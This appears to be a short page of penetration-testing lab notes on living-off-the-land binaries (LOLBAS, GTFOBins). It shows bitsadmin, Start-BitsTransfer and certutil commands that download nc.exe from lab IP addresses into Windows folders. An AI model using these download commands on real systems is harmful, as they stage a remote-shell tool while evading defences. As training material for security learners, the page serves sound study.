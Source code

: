 ```yaml
---
title: "LOLBAS and GTFOBins"
weight: 6
---
```

---

### LOLBAS

![LOLBAS](lolbas.jpg)

### GTFOBins

![GTFOBins](gtfobins.jpg)

### Other Common Living off the Land tools

#### Bitsadmin Download function

##### File Download with Bitsadmin

```cmd
PS C:\sam> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

##### Download

```
PS C:\sam> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil

##### Download a File with Certutil

```
C:\sam> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
